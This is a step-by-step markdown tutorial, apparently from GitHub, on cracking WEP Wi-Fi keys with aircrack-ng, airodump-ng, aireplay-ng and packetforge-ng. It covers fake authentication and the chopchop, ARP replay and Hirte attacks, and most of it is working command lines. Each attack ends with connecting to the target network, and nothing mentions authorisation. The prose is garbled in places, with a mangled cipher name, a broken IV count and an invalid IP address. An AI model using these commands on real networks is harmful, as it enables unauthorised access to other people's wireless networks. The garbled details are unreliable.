 # Break WEP Encryption

**WEP:** WEP (Wired Equivalent Privacy) is an encryption was the first standardized way of securing wireless networks. Its uses RC4 (Pivest Cipher 4) algorithm that's mean each packet is encrypted *THE (AP)* encrypt the packet and send it to the air, then the client receive the packet and the client has the key then he will decrypt it and read all the data.

**WEP** is use 2 keys to encrypt each by the of information:

- It's a unique key steam by using a 24-bit is random number. Called an **IV (Initializing Vector)**. And its sent as a plain text.

- Approximately 9,000 the possible I6 mission I6 million IVS are called **WEAK IVS**. Using a weak IV reveals more information about the configured key than other IVS.


## Cracking WEP Encryption

You have to monitor mood in network. Checking your mode as befoure,

`iwconfig`

`airodump-ng wlan0mon`

`airodump-ng -c 2 --bssid XX:XX:XX:XX:XX:XX --write creakingwepdemo wlan0mon`

Open another terminal window and using **aircrack-ng** tool.

`aircrack-ng creakingwepdemo-01.cap`

Its time little bit log for cracking. Until we get the key the process is on. Sometimes its need an hours. But the network is busy then we can get the key in 5 to 20 minutes. The key is, `01:73:10:64:00`. Remove the clone and get the password '0173106400'.After the process we can stop the airmon-ng.

`airmon-ng stop wlan0mon`


## Fake Authentication with The Target Network

Always make sure your wi-fi card is in monitor mood. We will use this method when no client is connected or your own choose.

`iwconfig`

`airodump-ng wlan0mon`		# scan the network for the target

`airodump-ng -c 2 --bssid XX:XX:XX:XX:XX:XX wlan0mon`		# specific scan the target network

**Crate a fake authenticate of the network.**

Open a terminal and write this command:

`ifconfig wlan0mon`

You will get the unspece number. Then open a new terminal and use aireplay-ng tools. Get the first 12 degit of unspece number and replace to the dash (-) to clone (:).

`aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

You will see a new client in target network. That is the fake authenticate user. Then you can use creaking WEP Encryption.


## Creaking WEP Using KOREK CHOPCHOP Attack.

### Step:

- Capture the ARP packets from the network.
- Forge it to a new packets.
- Inject in to the network.

Specify the target network:
`airodump-ng -c 2 --bssid XX:XX:XX:XX:XX:XX --write chopchop wlan0mon`

Open another terminal and use aireplay tools:
`aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

Now we paly chopchop attack:
`aireplay-ng --chopchop -b XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

Then method ask me "User theis packet?". We have to press n (no).

Reassociate the command,

`aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

and 

`aireplay-ng --chopchop -b XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

Untill the encreption code will not show in 3 or 4 line. This time we will press y (yes). After the complete the process then open another terminal.

`packetforge-ng -0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 -k 255.255.255.2555 -l 255.255.255.255 -y replace_dec_1103...xor -w chopchopInject`


```
packetforge-ng		-> tool
-a					-> Mac address of the target network
-h					-> mac address is the my own wi-fi network
-k					-> destination ip
-l					-> source ip
-y					-> specify the file (replace_dec_1103...xor you will get this file when chopchop attack is complete.)
-w					-> write file
```

Reassociate again.

`aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

Then use this command:

`aireplay-ng -2 -r chopchopInject wlan0mon`

```
aireplay-ng		-> tool
-2				-> replay
-r				-> read the file we have created
wlan0mon		-> wi-fi card name
```

This time application ask "Use this packet?" just type y (yes). Open another terminal and use this command:

`aircrack-ng chopchop-01.cap`

You will see a few seconds you will get the key. Stop monitor mood and connect your target network.


## Cracking WEP Using ARP Request Replace Attack

### Step:

- Capture an ARP packets from the network
- Inject into the traffic
- Generate a new packets with new IVS
- Capture those packets again and inject it into the traffic again

Now we have to target first.

`airodump-ng -c 2 -bssid XX:XX:XX:XX:XX:XX --write ARPAttack wlan0mon`

If this network have no client then create a fake authenticate user. Open a new terminal,

`aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

Now we will creack the key or inject the packet. Open another terminal.

`aireplay-ng --arpreplay -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0mon`

Then reauthenticate the user.

`aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h 44:33:4c:40:49:c3 wlan0mon`

Now after few time passed open a new terminal and use aircrack-ng tool.

`aircrack-ng ARPAttack-01.cap`

Now we have wait until the creack process is complete and key is found.


## Cracking WEP Using HIRTE Attack

### Steps:

- Setup a fake WEP AP and waits for a client to connect.
- Upon connection of a client waits for auto-configuration IP address.
- Clietn sends and ARP packet.
- Obtain the ARP packet and converts it into an ARP request for the same client.
- Client replaces.
- Collect these packets.
- Crack the WEP key.

Specify the target network:

`airodump-ng wlan0mon`

`airodump-ng -c 2 --bssid XX:XX:XX:XX:XX:XX --write HirteAttack wlan0mon`

`aireplay-ng -7 -h XX:XX:XX:XX:XX:XX -D wlan0mon`

Open another terminal and crack the key.

`aircrack-ng HirteAttack-01.cap`

Then we have to wait for the key. After the getting key then enable manage mode and connect your target wi-fi network.
